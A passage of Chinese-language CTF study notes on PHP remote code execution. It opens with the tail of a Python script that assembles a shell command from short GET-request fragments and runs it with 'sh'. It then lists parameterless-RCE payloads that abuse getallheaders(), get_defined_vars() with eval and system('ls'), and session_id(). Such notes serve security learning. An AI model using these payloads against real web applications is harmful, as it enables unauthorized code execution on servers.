 ```python
    '>rl\\',
    '>cu\\'
]
for i in list:
    time.sleep(1)
    url = baseurl+str(i)
    s.get(url)

for j in list2:
    time.sleep(1)
    url = baseurl+str(j)
    s.get(url)

s.get(baseurl+"sh x")
s.get(baseurl+"sh g")
```

## 13：无参数RCE

![image-20250808161248490](C:\Users\zdx33\AppData\Roaming\Typora\typora-user-images\image-20250808161248490.png)

正则：`/[^\W]+\((?R)?\)/`

(?R)?：

- `(?R)` 是递归引用整个正则表达式模式
- `?` 表示递归部分是可选的

整个正则匹配嵌套的函数调用比如a()	a(bdf())	a(fdasf(asdf()))

#### HTTP 请求标头   (php7)

`getallheaders()`获取所有HTTP请求标头(反序,数组)

`?code=print_r(pos(getallheaders()))`获取burpsuite看到的最后一项（数组的第一项）

`?code=eval(pos(getallheaders()))`直接写system()

也可以使用`implode`函数，注意要加注释符号

#### 利用全局变量RCE  (php5/7)

get_defined_vars()   返回所有已定义变量的值，所组成的数组

`?code=print_r(get_defined_vars());`第一个成员就是一个数组

`eval(end(pos(get_defined_vars())));&cmd=system('ls');`所以一次pos找到get数组，一次end找到cmd

#### session RCE (php5)

`?code=print_r(session_id(session_start()));`

为什么不能用于php7？

session_start()返回true or flase，作为参数传递给session_id。php5中会忽略，实际当作参数为空，返回当前的会话 ID。但是php7**类型检查**更加严格，session_id**期望参数**是一个字符串（用于设置会话 ID），遇到bool时认为无效返回空字符串
